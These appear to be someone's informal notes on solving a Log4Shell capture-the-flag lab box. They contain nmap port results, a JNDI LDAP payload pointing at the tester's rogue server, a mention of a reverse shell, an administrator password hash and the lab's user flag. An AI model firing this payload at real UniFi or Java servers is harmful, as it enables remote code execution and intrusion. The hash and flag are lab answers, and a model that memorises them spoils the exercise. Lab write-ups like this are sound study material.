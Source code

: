 # {{10.129.247.157}}
## Enumeration
#### [[nmap]]
-`22/tcp   open  ssh`
-`6789/tcp open  ibm-db2-admin`
-`8080/tcp open  http-proxy`
-`8443/tcp open  https-alt`
-`8880/tcp open  cddbp-alt`



#### notes
- ssh, possibility for shell
- http proxy shows unifi running with a outdaded version
- unifi has [[log4j vuln]]
- we watch port [[ldap]] port (389) to see if log4shell works
- i used [[nc]] for this
- the jndi request looks like `${jndi:ldap://10.10.15.131:1389/o=tomcat}`


## Exploitation
#### notes
- i used insalled java, marven and rogue-jndi to build my rouge ldap server
- we then setup the server to have a revese shell script
- using the article we know the server should have mongoDB
- we found administrator: x shadow =
- $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.



### finnally
user flag: 6ced1a6a89e666c0620cdb10262ba127